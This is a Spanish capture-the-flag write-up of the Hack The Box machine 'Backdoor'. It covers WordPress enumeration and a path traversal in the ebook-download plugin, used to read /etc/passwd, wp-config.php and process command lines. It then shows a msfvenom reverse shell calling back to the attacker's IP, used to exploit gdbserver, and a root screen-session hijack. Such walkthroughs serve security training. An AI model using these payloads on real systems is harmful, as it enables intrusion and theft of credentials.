---
# Descipcion

Backdoor es una máquina Linux de dificultad fácil de Hack The Box centrada en la enumeración web, la explotación de vulnerabilidades y la escalada de privilegios. Inicialmente, se identifica un sitio WordPress con un plugin vulnerable a Directory Traversal, que permite leer archivos del sistema y descubrir un servicio gdbserver expuesto en el puerto 1337. Aprovechando una vulnerabilidad de ejecución remota de código (RCE), se obtiene acceso como usuario. Finalmente, se explota una configuración insegura de Screen para acceder a una sesión privilegiada y conseguir root

---

# Enumeracion

## Nmap
> Comenzamos con un escaneo de puertos. **Nmap** es el estándar de facto para descubrir servicios expuestos; lanzamos primero un barrido completo de puertos TCP para no dejar nada fuera.

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.96.68
```



> Una vez identificados los puertos abiertos, lanzamos los scripts de detección de versión y de categoría por defecto (`-sC -sV`) sobre ellos para conocer software y versiones.

```bash
$ nmap -p22,80,1337 -sC -sV 10.129.96.68
```



## Web

> A continuación identificamos la tecnología web. **WhatWeb** hace fingerprinting de CMS, servidores y frameworks a partir de las cabeceras y el HTML.

```bash
$ whatweb http://backdoor.htb
```



Accedemos a la web:



## WPSCAN

> Estamos ante un `wordpress` y para enumerarlo vamos a pasar `wpscan`. Pero antes de eso vamos a la sección Blog y entramos en la primera entrada, en ella podemos ver el nombre de usuario `admin`



> [!NOTE]
> **WPScan** es una herramienta especializada en WordPress: enumera usuarios, versiones, temas y plugins, y los cruza con > su base de datos de vulnerabilidades.

```bash
$ wpscan --url http://backdoor.htb
```







> Nos da algunas cosas interesantes `XML-RPC` esta activado, el directorio `uploads` es accesible pero no encuentro nada dentro, la versión de `wordpress` y el tema que esta utilizando

> Pruebo fuerza bruta con el usuario `admin` pero no encuentro su clave. Voy a probar a enumerar los `plugins` de `wordpress` de manera mas agresiva a ver si encuentra algo

> Para forzar la enumeración de todos los plugins usamos `-e ap` (enumerate all plugins) junto con `--plugins-detection aggressive`:

```bash
$ wpscan --url http://backdoor.htb -e ap --plugins-detection aggressive
```



> Encuentra dos plugins, buscando por los dos el plugin `ebook-download` en esa versión tiene una vulnerabilidad `LFI` que nos permite descargar archivos del sistema

# Shell como user

## LFI

> [!NOTE]
> El **LFI (Local File Inclusion)** permite que un parámetro vulnerable incluya archivos locales del servidor; en la práctica lo usamos como un lector de archivos arbitrario.

```text
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
```

> Solo debemos de utilizar esa direccion, aquí por ejemplo vemos `/etc/passwd`



> El único usuario con una `bash` asignada es `user`. Vamos a comprobar si el usuario tiene un `id_rsa`

```text
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../home/user/.ssh/id_rsa
```

> No tenemos suerte, no existe el archivo o no lo podemos bajar con el usuario con el que se realiza el `LFI`

> Vamos a listar el archivo `wp-config.php` para comprobar si viene contraseña de la base de datos a ver si es la misma que `user`

```text
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../var/www/html/wp-config.php
```



> No coincide la contraseña por `ssh` ni como usuario `admin` de `wordpress`. Vamos a probar si podemos listar el `cmdline` del sistema, y si podemos, haremos un recorrido para coger los `cmdline` de los 1000 primeros procesos abiertos, a ver si descubrimos algo interesante.

> [!NOTE]
> El sistema de archivos **`/proc`** expone información de los procesos en ejecución; el archivo `cmdline` contiene la línea de comandos exacta con la que se lanzó cada proceso.

```bash
$ curl 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/self/cmdline' -o-
```



> Aquí nos indica `apache` ya que el comando que ejecutamos para leer archivos es a través de apache.

> Lo que hace el `cmdline` de un proceso es mostramos el `comando` que se ha introducido para ejecutar ese proceso, ahora vamos a limpiar un poco la salida para que se vea solo el comando

```bash
$ curl 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/self/cmdline' -o- | cut -d '/' -f 8- | sed 's/<script.*//g'
```



> Ahora vamos a realizar un bucle, con los 1000 primeros procesos

```python
import requests
for i in range(1, 1000):
 r = requests.get(f"http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{i}/cmdline")
 out = (r.text.replace('/proc/'+str(i)+'/cmdline','').replace('\00',' '))
 if len(out)>1:
         print("PID"+str(i)+" : "+out)
```



> El que nos interesa es este, el 970. Vemos como ejecuta `gdbserver` en el puerto 1337. Vamos a obtener una `shell`, buscando por google encontramos este enlace donde nos hace un pequeño `poc` de como realizarlo.

```text
https://www.exploit-db.com/exploits/50539
```

---

## GDBSERVER

> Generamos el shellcode con **msfvenom**. Usamos un reverse shell para Linux x64 con `PrependFork=true`, que hace que el payload se ejecute en un proceso hijo para que el servicio de depuración no se caiga al inyectarlo.

```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.220 LPORT=7777 PrependFork=true -o rev.bin
```

> Nos ponemos a la escucha con **Netcat**:

```bash
$ nc -nvlp 7777
```

> Ejecutamos el PoC de Exploit-DB contra el `gdbserver`:

```bash
$ python3 test.py 10.129.96.68:1337 rev.bin
```





---

# Shell como root

## Enumeracion

> Obtenemos una `shell` vamos a tratarla y la vamos a enumerar. Ya antes cuando vimos los procesos justo debajo del de `gdb` había uno de `screen` vamos a ver los procesos

> [!NOTE]
> **GNU Screen** es un multiplexor de terminal que permite mantener sesiones persistentes; sus sockets se guardan en `/var/run/screen/S-<usuario>/`.

```bash
$ ps faux
```

```text
root         971  0.0  0.0   2608  1596 ?        Ss   Jun03   0:04      \_ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
```

> Este comando es un bucle, donde se analiza que la carpeta `/var/run/screen/S-root/`(Donde `Screen` guarda los `sockets` de las sesiones) este vacía,  si  esta vacía ejecuta `screen -dmS root \` crea una sesión de `Screen` en segundo plano con el nombre de `root`

## Screen

> Vamos a probar a listar las sesiones del usuario `root`

```bash
$ screen -ls root/
```



> Encontramos una sesion vamos a probar a acceder a la sesion

```bash
$ screen -r root/root
```



> Conseguimos acceso como `root`.